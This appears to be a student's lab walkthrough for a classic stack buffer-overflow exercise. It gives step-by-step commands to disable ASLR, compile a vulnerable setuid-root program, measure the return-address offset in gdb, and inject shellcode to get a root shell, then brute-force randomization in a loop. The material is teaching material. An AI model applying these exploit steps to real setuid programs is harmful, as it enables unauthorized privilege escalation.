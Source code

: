 # Task 1: Exploiting the Vulnerability
## preparation

Disable address apace randomization:

    sudo sysctl -w kernel.randomize_va_space=0

Create an empty badfile for debugger:

    touch badfile

**NOTE**: If you are using Ubuntu 16.04 or later, the default `dash` shell will not work properly (you won't get a root shell). Use following commands to replace `dash` by `zsh` before starting:

    sudo apt-get install zsh
    sudo rm /bin/sh
    sudo ln -s /bin/zsh /bin/sh
    exit

## test `call_shellcode.c`

    gcc -z execstack -o call_shellcode call_shellcode.c
    ./call_shellcode

A shell should be invoked here

## edit and compile `stack.c`

Insert codes after `char buffer[24];` :

```c
printf("%p\n", buffer);
```

Then compile `stack.c` in root account, and make it *set-root-uid*:

    su root
    gcc -o stack -z execstack -fno-stack-protector stack.c
    chmod 4755 stack
    exit

## check buffer address & offset

First run stack:

    ./stack

Take the output address as ***BUF***. You can also see an output `Returned Properly` here.

Then start gdb and disassemble function `bof`:

    gdb stack
    disas bof

Take the offset of the instruction `<strcpy>` as N. Set two breakpoints and start to run:

    b *(bof+0)
    b *(bof+N)
    r
    x/x $esp

You can get `addrA: xxxx` which shows the memory that contains return address. Then continue:

    c
    x/x $esp

Here you'll get `xxxx: addrB` which represents the start address of `buffer` in gdb. Now you can calculate offset:

    p addrA-addrB

Copy ***OFFSET*** *= addA - addrB* calculated above, then quit gdb:

    q
    y

## edit `exploit.c`

Insert codes after `memset(&buffer, 0x90, 517);` :

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + OFFSET + 4, shellcode);
```

## compile `exploit.c` and run!

    gcc -o exploit exploit.c
    ./exploit
    ./stack

You should see a **#** here, which means you've got a root shell! You can check this by typing the following:

    id
    whoami

# Task 2: Address Randomization

First turn on address randomization and try to run `stack`:

    sudo sysctl -w kernel.randomize_va_space=2
    ./stack

You should see a different output address, and an error `Segmentation fault (core dumped)` occered.

## edit `exploit.c`

Replace `BUF` with the address shown above, and change the destiny of `srtcpy` to the end of `buffer` as long as it can hold shellcode:

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + 480, shellcode);
```

## complie `exploit.c` and run `stack` in a loop

    gcc -o exploit exploit.c
    ./exploit
    sh -c "while [ l ]; do ./stack; done;"

Wait for a while until you get a root shell again!
